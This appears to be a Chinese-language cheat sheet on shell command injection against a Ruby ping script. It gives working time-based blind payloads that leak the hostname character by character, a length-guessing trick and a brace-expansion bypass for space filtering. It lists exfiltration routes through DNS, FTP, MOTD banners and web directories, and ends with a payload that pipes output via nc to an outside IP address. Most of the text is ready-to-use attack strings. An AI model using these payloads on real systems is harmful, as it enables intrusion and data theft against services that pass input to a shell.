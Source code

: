 
```
命令	时间	结果
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 1 | tr a 5)’	3s	-
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 1 | tr h 5)’	8s	h
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 2 | tr a 5)’	8s	a
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 3 | tr a 5)’	3s	-
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 3 | tr c 5)’	8s	c
```



#### 主机名 长度  盲猜

hostname =  hacker.local    (length:12)

```
$ time ruby server-online.rb '8.8.8.8 && sleep $(hostname | wc -c)'  # wc -c 计算长度

 yes 

0.10s user 0.04s system 0% cpu 16.188 total 
```



####  其他技巧

[使用dig或nslookup进行DNS查询，将输出发送到端口53（UDP） ](https://twitter.com/jobertabma/status/882237472389947392)



> - ```
>   在服务器上执行端口扫描，并且基于暴露的服务确定提取输出的方式。
>   
>   > - **FTP**：尝试将文件写入可以从中下载文件的目录。
>   > - **SSH**：尝试将命令的输出写入MOTD banner，然后只需SSH到服务器。
>   > - **Web**：尝试将命令的输出写入公共目录（/var/www/）中。
>   ```



#### 绕过对空格的限制 

花括号用来匹配一组用逗号分隔的字符串中的任一个。左花括号之前的所有字符称为前文(preamble)，右花括号之后的所有字符称为后文(preamble)。前文和后文都是可选的。花括号中不能包含不加引号的空白符。 

[花括号扩展](http://www.gnu.org/software/bash/manual/bashref.html#Brace-Expansion)

```
puts `ping -c 4 #{ARGV[0].gsub(/\s+?/,'')}`  #删除空格
```



```
$ time ruby ping-2.rb '8.8.8.8;{sleep,5}'

 ... 

0.10s user 0.04s system 1% cpu 8.182 total 


$ ruby ping.rb '8.8.8.8;hostname|{nc,192.241.233.143,81}'


```
